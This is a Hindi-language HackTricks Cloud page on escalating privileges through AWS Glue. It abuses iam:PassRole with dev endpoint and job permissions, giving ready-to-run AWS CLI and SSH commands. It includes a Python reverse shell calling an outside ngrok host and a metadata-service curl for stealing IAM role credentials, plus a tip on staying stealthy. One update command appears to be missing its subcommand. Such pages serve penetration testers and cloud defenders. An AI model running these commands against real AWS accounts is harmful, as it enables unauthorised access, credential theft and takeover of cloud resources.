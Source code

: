 # AWS - Glue Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks swag प्राप्त करें**](https://peass.creator-spring.com)
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

उन उपयोगकर्ताओं के पास ये अनुमतियाँ हो सकती हैं जो **नए AWS Glue डेवलपमेंट एंडपॉइंट** को **सेटअप कर सकते हैं**, इस एंडपॉइंट को विशिष्ट अनुमतियों के साथ **मौजूदा सेवा भूमिका** से जोड़ सकते हैं।

सेटअप के बाद, **हमलावर एंडपॉइंट के इंस्टेंस में SSH कर सकता है**, और जोड़ी गई भूमिका के IAM क्रेडेंशियल्स चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
गुप्तता के उद्देश्य से, Glue वर्चुअल मशीन के अंदर से IAM क्रेडेंशियल का उपयोग करना सुझावित है।

**संभावित प्रभाव:** निर्दिष्ट Glue सेवा भूमिका को उन्नत करना।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **एक मौजूदा Glue विकास** अंत-बिंदु की SSH कुंजी को **संशोधित कर सकते हैं**, **इसके लिए SSH पहुंच को सक्षम करते हैं**। यह आक्रमणकर्ता को अंत-बिंदु के संलग्न भूमिका की विशेषताओं के साथ कमांडों को निष्पादित करने की अनुमति देता है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** ग्लू सेवा भूमिका में उन्नति।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** के साथ उपयोगकर्ता या तो **`glue:CreateJob` या `glue:UpdateJob`**, और या तो **`glue:StartJobRun` या `glue:CreateTrigger`** के साथ संयुक्त रूप से, **AWS Glue जॉब बना सकते या अपडेट कर सकते हैं**, किसी भी **Glue सेवा खाता** को संलग्न करके, और जॉब का क्रियान्वयन प्रारंभ कर सकते हैं। जॉब की क्षमताएँ विविध Python कोड चलाने को शामिल हैं, जिसे एक रिवर्स शैल एस्टाब्लिश करने के लिए उत्पादित किया जा सकता है। इस रिवर्स शैल का उपयोग फिर ग्लू जॉब से जुड़े भूमिका के **IAM क्रेडेंशियल** को बाहरी करने के लिए किया जा सकता है, जो उस भूमिका की अनुमतियों पर आधारित अनधिकृत उपयोग या कार्रवाई में पहुंचने की संभावना बनाता है:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट गोंद सेवा भूमिका को उन्नत करना।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ एक हमलावर उस पहले संलग्न भूमिका के IAM क्रेडेंशियल्स चुरा सकता है।

**संभावित प्रभाव:** गोंद सेवा भूमिका संलग्न करना।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में** दिखाया जाए या **HackTricks को PDF में डाउनलोड** करें तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
